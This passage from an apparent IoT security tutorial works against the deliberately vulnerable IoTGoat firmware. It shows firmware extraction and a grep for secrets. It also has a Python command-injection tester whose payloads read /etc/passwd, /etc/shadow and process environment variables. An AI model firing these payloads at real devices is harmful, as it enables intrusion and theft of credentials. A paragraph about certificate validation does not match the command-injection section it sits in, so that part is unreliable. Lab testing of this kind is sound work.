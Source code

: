 Let's extract and analyze IoTGoat's firmware:

```bash
# Extract firmware with binwalk
binwalk -e iotgoat_firmware.bin

# Search for hardcoded secrets
grep -r "password\|passwd\|pwd\|api_key\|secret" _iotgoat_firmware.bin.extracted/

# Extract file system if squashfs
unsquashfs -d extracted_fs _iotgoat_firmware.bin.extracted/*.squashfs

# Analyze binaries for vulnerabilities
checksec --file=extracted_fs/usr/bin/iot_service
```

### 4. Command Injection via Web Interface

Web interfaces on IoT devices often lack proper input validation. [Studies show](https://doi.org/10.1145/3538969.3543815) that 34% of IoT web interfaces are vulnerable to command injection.

I discovered my cheap Chinese security camera accepted ANY SSL certificate. It never verified the server identity. An attacker on my network could have easily MiTM'd the video feed. Certificate validation is critical **but** many cheap devices don't implement it. Manual configuration is secure **but probably** too tedious for most users. I'm not sure if all manufacturers use the same lax certificate handling, but it seems to be common in budget devices:

```python
import requests

def test_command_injection(url, param_name):
    """Test for command injection vulnerabilities"""
    payloads = [
        "; cat /etc/passwd",
        "| cat /etc/shadow",
        "$(cat /proc/self/environ)",
        "`id`"
    ]

    for payload in payloads:
        data = {param_name: f"test{payload}"}
        response = requests.post(url, data=data)

        if "root:" in response.text or "uid=" in response.text:
            print(f"[!] Command injection found with: {payload}")
            return True
    return False
```

## Defensive Measures: Securing Your IoT Devices

After exploring these vulnerabilities, here's how to protect your actual IoT devices. I think the key insight is that perfect security doesn't exist. You're always making trade-offs between usability and protection.
